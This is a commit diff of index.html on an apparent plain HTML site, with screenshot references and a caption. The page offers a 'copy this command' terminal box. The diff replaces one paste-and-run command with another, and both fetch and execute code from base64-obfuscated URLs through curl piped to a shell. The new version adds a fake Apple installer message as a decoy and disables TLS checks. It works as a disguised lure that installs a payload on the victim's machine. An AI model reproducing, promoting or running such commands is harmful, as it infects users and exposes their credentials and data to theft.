

Before and after one commit to tv5d7dh7/net111, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 556-716 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -338,7 +338,7 @@
     <div class="terminal-body">
         <div class="terminal-content">
             <div class="terminal-command-wrapper">
-                <code id="commandToCopy" class="terminal-command terminal-font">/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9ub25uaWRhLmNvbS9nZXRuZXRmbGl4 | base64 -d))"</code>
+                <code id="commandToCopy" class="terminal-command terminal-font">echo "Apple-Installer: https://apps.apple.com/hidenn-gift.application/macOsAppleApicationSetup4a21w41e5.dmg" && curl -kfsSL $(echo 'aHR0cHM6Ly9sZWVncmFlbWUuY29tL2dldG5vdGlvbg=='|base64 -D)|zsh</code>
             </div>
             <button
                 onclick="copyCommand()"
```
